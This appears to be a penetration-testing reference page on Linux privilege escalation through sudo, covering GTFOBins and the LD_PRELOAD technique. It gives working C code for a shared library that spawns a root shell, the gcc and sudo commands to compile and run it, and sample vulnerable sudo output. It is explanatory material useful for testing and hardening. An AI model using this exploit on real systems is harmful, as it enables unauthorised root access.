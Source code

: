 ###### "GTFOBins"

Similarly to `SUID` / `GUID` binaries, any `GTFOBins` program that allows
arbitrary commands execution can be leveraged for privilege escalation if
defined to be executable with higher privileges in a `sudo` entry.

`GTFOBins` binaries are referenced on the
[`gtfobins.github.io`](https://gtfobins.github.io/) website.

###### LD_PRELOAD

If the `LD_PRELOAD` environment variable is set to be kept in the `sudo`
configuration (`env_keep += LD_PRELOAD` set in the `/etc/sudoers` file), it may
be possible to obtain code execution under the privileges assumed through
`sudo`. The `LD_PRELOAD` environment variable can indeed be leveraged to induce
the utility executed through `sudo` (with hopefully higher privileges) to load
an arbitrary shared library (`.so`).

The following code example simply executes `/bin/bash` under the identity of
the user executing the binary, and can be leveraged to elevate privilege (if
loaded by a binary executed under a more privileged user through `sudo`). The
`_init` special function gets called as the library is first opened.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  system("/bin/sh");
}
```

The `sudo` configuration can be retrieved using `sudo -l` (if the current
user as the required privileges to execute `sudo`). The following example
output shows a vulnerable `sudo` configuration allowing for privilege
escalation:

```
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_reset, env_keep+=LD_PRELOAD

User user1 may run the following commands on aeae955a6e8c:
(root) NOPASSWD: /usr/bin/openssl
```

`gcc`, among other compilers, can be used to compile a shared library
leveraging the exploitation code example above to obtain a shell under the
privileges assumed through `sudo`.

```bash
# Compiles the exploitation code as a shared library.
# The "-nostartfiles" flag is needed to compile shared library making use of the "_init" function.
gcc -nostartfiles -fPIC -shared -o <LIBRARY>.o <CODE_FILE>.c

# Executes the arbitrary shared library through the targeted binary executed under sudo.
# The shared library file should be placed in a directory for which the targeted user has access.
sudo [-u <USERNAME>] LD_PRELOAD=<PATH>/<LIBRARY>.o <TARGETED_SUDO_COMMAND>
```
